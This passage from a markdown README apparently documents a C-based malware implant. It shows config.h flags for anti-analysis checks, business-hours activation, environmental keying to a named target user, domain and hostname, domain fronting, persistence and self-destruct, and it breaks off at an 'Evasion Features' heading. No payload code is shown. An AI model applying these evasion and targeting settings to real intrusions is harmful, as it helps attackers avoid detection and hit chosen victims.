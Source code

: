 ### Option 3: Conditional Compilation
```c
// In main.c, use preprocessor
#ifdef USE_IMPROVED_VERSION
    #include "main_improved.c"
#else
    // Original code
#endif
```

---

## 🎛️ Configuration Options

### Enable/Disable Features

Edit `config.h`:

```c
// Anti-analysis (HIGHLY RECOMMENDED)
#define ENABLE_ANTI_ANALYSIS 1       // Enable ALL checks

// Time-based activation
#define ENABLE_TIME_ACTIVATION 1     // Business hours only
//#define ENABLE_TIME_ACTIVATION 0   // Anytime

// Environmental keying
#define ENABLE_ENV_KEYING 1          // Target-specific
#define TARGET_USERNAME "john.doe"   // Only run for this user
#define TARGET_DOMAIN "CORPNET"      // Only on this domain
#define TARGET_HOSTNAME "DESKTOP-*"  // Wildcard hostname

// Domain fronting
#define USE_DOMAIN_FRONTING 1        // Use CDN domains
//#define USE_DOMAIN_FRONTING 0      // Direct connection

// Persistence
#define ENABLE_PERSISTENCE 1         // Keep retrying
//#define ENABLE_PERSISTENCE 0       // Give up after retries

// Self-destruct
#define ENABLE_SELF_DESTRUCT 1       // Delete on killswitch
//#define ENABLE_SELF_DESTRUCT 0     // Just exit
```

---

## 📋 Feature Checklist

### Evasion Features Implemented:
